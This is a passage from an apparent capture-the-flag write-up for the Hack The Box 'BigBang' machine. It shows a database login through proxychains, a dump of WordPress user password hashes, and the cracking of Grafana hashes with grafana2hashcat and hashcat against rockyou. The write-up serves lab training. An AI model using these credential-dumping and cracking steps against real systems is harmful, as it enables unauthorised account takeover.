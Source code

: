 ```bash
# 'wp_password' as pass
proxychains -q mysql -h 172.17.0.1 -u 'wp_user' -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 690
Server version: 8.0.32 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
```console
show databases;

use wordpress;

MySQL [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url                | user_registered     | user_activation_key | user_status | display_name    |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
|  1 | root       | $P$B...Cj1 | root          | root@bigbang.htb     | http://blog.bigbang.htb | 2024-05-31 13:06:58 |                     |           0 | root            |
|  3 | shawking   | $P$...oK./ | shawking      | shawking@bigbang.htb |                         | 2024-06-01 10:39:55 |                     |           0 | Stephen Hawking |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
```
Now we can crack the ```shawking``` password and just ssh

## Grafana DB

Enumerate and find a new db

```bash
shawking@bigbang:/opt/data$ ls -la
total 1008
drwxr-xr-x 6 root root    4096 Jan 27 19:31 .
drwxr-xr-x 4 root root    4096 Jun  5  2024 ..
drwxr--r-- 2 root root    4096 Jun  5  2024 csv
-rw-r--r-- 1 root root 1003520 Jan 27 19:31 grafana.db
drwxr--r-- 2 root root    4096 Jun  5  2024 pdf
drwxr-xr-x 2 root root    4096 Jun  5  2024 plugins
drwxr--r-- 2 root root    4096 Jun  5  2024 png
```
Download it and crack it by following [THIS GITHUB](https://github.com/iamaldi/grafana2hashcat)

```bash
python3 grafana2hashcat.py hashes.txt -o hashcat_formathash.txt

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  hashes.txt
[+] Done! Read 1 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[+] Writing output to 'hashcat_formathash.txt' file

hashcat -m 10900 hashcat_formathash.txt --wordlist /usr/share/wordlists/rockyou.txt

sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=:REDACTED
```